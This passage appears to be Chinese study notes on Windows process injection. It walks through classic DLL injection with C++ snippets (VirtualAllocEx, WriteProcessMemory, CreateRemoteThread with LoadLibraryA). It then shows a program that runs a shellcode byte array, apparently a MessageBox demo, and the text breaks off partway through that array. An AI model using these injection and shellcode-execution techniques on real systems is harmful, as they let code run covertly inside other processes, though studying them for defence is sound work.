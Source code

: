 ### ✅ 注入流程简要说明（你这句代码处于整个流程的中间）：

1. 使用 `OpenProcess` 获取目标进程句柄。
2. 使用 `VirtualAllocEx` 为 DLL 路径在目标进程中分配内存。
3. 使用 `WriteProcessMemory` 把 DLL 路径字符串写入上面的内存。
4. 使用 `GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA")` 获取 `LoadLibraryA` 地址。
5. 使用 `CreateRemoteThread` 创建远程线程，执行 `LoadLibraryA(remoteMem)`，加载 DLL。

---

### ✅ 示例图解：

```cpp
// 步骤 1: 打开目标进程
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);

// 步骤 2: 分配远程内存
LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT, PAGE_READWRITE);

// 步骤 3: 写入 DLL 路径到远程进程
WriteProcessMemory(hProcess, remoteMem, dllPath, strlen(dllPath) + 1, NULL);

// 步骤 4: 获取 LoadLibraryA 的地址
LPVOID loadLibAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

// 步骤 5: 创建远程线程
CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibAddr, remoteMem, 0, NULL);
```

# 直接修改原数组地址执行代码

```cpp
// 修改内存页为可执行-在数组指针上执行SHELLCODE.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>
#include <Windows.h>

int main()
{
    unsigned char data[] = {
    0x40, 0x55, 0x53, 0x56, 0x57, 0x41, 0x54, 0x41, 0x55, 0x41, 0x56, 0x41, 0x57, 0x48, 0x8B, 0xEC,
    0x48, 0x83, 0xEC, 0x78, 0x45, 0x33, 0xC0, 0xC7, 0x45, 0xB0, 0x55, 0x53, 0x45, 0x52, 0x44, 0x88,
    0x45, 0xBA, 0xC7, 0x45, 0xB4, 0x33, 0x32, 0x2E, 0x44, 0x66, 0xC7, 0x45, 0xB8, 0x4C, 0x4C, 0xC7,
    0x45, 0xC0, 0x4D, 0x65, 0x73, 0x73, 0xC7, 0x45, 0xC4, 0x61, 0x67, 0x65, 0x42, 0xC7, 0x45, 0xC8,
    0x6F, 0x78, 0x41, 0x00, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x60, 0x00, 0x00, 0x00, 0xC7, 0x45, 0xD0,
    0x4C, 0x6F, 0x61, 0x64, 0xC7, 0x45, 0xD4, 0x4C, 0x69, 0x62, 0x72, 0xC7, 0x45, 0xD8, 0x61, 0x72,
    0x79, 0x41, 0x4C, 0x8B, 0x78, 0x18, 0x49, 0x83, 0xC7, 0x20, 0x44, 0x88, 0x45, 0xDC, 0xC7, 0x45,
    0xE0, 0x47, 0x65, 0x74, 0x50, 0xC7, 0x45, 0xE4, 0x72, 0x6F, 0x63, 0x41, 0xC7, 0x45, 0xE8, 0x64,
    0x64, 0x72, 0x65, 0x4D, 0x8B, 0x77, 0x08, 0x66, 0xC7, 0x45, 0xEC, 0x73, 0x73, 0x44, 0x88, 0x45,
    0xEE, 0x4C, 0x89, 0x45, 0x60, 0x4C, 0x89, 0x45, 0x58, 0xE9, 0xC4, 0x00, 0x00, 0x00, 0x49, 0x8B,
    0x76, 0x20, 0x48, 0x63, 0x46, 0x3C, 0x48, 0x8B, 0x84, 0x30, 0x88, 0x00, 0x00, 0x00, 0x48, 0x8B,
    0xC8, 0x48, 0xC1, 0xE9, 0x20, 0x85, 0xC9, 0x0F, 0x84, 0xA1, 0x00, 0x00, 0x00, 0x8B, 0xC8, 0x44,
    0x89, 0x45, 0x48, 0x8B, 0x44, 0x31, 0x18, 0x89, 0x45, 0x50, 0x85, 0xC0, 0x0F, 0x84, 0x8C, 0x00,
    0x00, 0x00, 0x44, 0x8B, 0x64, 0x31, 0x24, 0x8B, 0x54, 0x31, 0x1C, 0x4C, 0x03, 0xE6, 0x44, 0x8B,
    0x6C, 0x31, 0x20, 0x4C, 0x03, 0xEE, 0x48, 0x89, 0x55, 0xA8, 0x41, 0x0F, 0xB7, 0x04, 0x24, 0x41,
    0x8B, 0x5D, 0x00, 0x48, 0x03, 0xDE, 0x48, 0x8D, 0x0C, 0x82, 0x48, 0x8B, 0xD3, 0x8B, 0x3C, 0x31,
    0x48, 0x8D, 0x4D, 0xD0, 0x48, 0x03, 0xFE, 0xE8, 0x90, 0x00, 0x00, 0x00, 0x85, 0xC0, 0x48, 0x8B,
    0xCF, 0x48, 0x8B, 0xD3, 0x48, 0x0F, 0x44, 0x4D, 0x58, 0x48, 0x89, 0x4D, 0x58, 0x48, 0x8D, 0x4D,
    0xE0, 0xE8, 0x76, 0x00, 0x00, 0x00, 0x45, 0x33, 0xC0, 0x85, 0xC0, 0x48, 0x0F, 0x44, 0x7D, 0x60,
    0x48, 0x8B, 0xDF, 0x48, 0x89, 0x5D, 0x60, 0x48, 0x85, 0xFF, 0x74, 0x09, 0x48, 0x8B, 0x55, 0x58,
    0x48, 0x85, 0xD2, 0x75, 0x28, 0x8B, 0x45, 0x48, 0x49, 0x83, 0xC5, 0x04, 0x48, 0x8B, 0x55, 0xA8,
    0xFF, 0xC0, 0x49, 0x83, 0xC4, 0x02, 0x89, 0x45, 0x48, 0x3B, 0x45, 0x50, 0x72, 0x8C, 0x4D, 0x8B,
    0x76, 0x08, 0x4D, 0x3B, 0xF7, 0x0F, 0x85, 0x33, 0xFF, 0xFF, 0xFF, 0xEB, 0x1B, 0x48, 0x8D, 0x4D,
```
